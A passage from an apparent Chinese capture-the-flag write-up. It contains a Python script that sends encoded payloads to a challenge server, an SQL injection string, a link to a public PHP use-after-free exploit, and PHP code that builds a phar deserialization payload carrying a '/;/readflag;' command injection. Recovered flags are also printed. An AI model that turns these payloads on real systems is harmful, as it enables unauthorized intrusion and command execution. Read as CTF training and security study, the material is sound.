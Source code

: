 ```python
]
burp0_url = "http://121.36.222.22:88/core/index.php"
burp0_cookies = {"PHPSESSID": "d0669b0c49bf308022c430b52699b257", "JSESSIONID": "E1715942F5CF2C337F1B86D0B6F324E0"}
burp0_headers = {"Pragma": "no-cache", "Cache-Control": "no-cache", "Origin": "http://121.36.222.22:88", "Upgrade-Insecure-Requests": "1", "Content-Type": "application/x-www-form-urlencoded", "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/80.0.3987.132 Safari/537.36", "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9", "Referer": "http://121.36.222.22:88/core/index.php", "Accept-Language": "zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7", "Connection": "close"}
for i in payload:
    assert len(i) <= 4
    burp0_data = {"url": "compress.zlib://data:@127.0.0.1/plain;base64,"+str(base64.b64encode(bytes(i,encoding="ascii")),encoding="ascii")}
    r=requests.post(burp0_url, headers=burp0_headers, cookies=burp0_cookies, data=burp0_data)
    print(r.status_code,burp0_data,i)
    print(r.text)
    time.sleep(0.1)


```

`flag{B11e_oX4461_Y2h1_100_OIZW4===}`



### sqlcheckin

最简单的题目之一

payload:`'-'0`



### php-uaf

https://raw.githubusercontent.com/mm0r1/exploits/master/php7-backtrace-bypass/exploit.php
直接include就可以了,但是有时候可以,有时候不可以
![image.png](https://i.loli.net/2020/03/08/Cd7RqZwApre2Lxo.png)

flag{SObARsac1TyC0V9B}

### webct

www.zip获得源码

利用mysql load data 来 反序列化

```php

$phar = new Phar("phar.phar"); //后缀名必须为phar,phar伪协议不用phar后缀
$phar->startBuffering();
$phar->setStub("<?php __HALT_COMPILER(); ?>");
$o = new Fileupload(new Listfile("/;/readflag;"));
$phar->setMetadata($o); //将自定义的meta-data存入manifest
$phar->addFromString("test.txt", "test"); //添加要压缩的文件
//签名自动计算
$phar->stopBuffering();

```
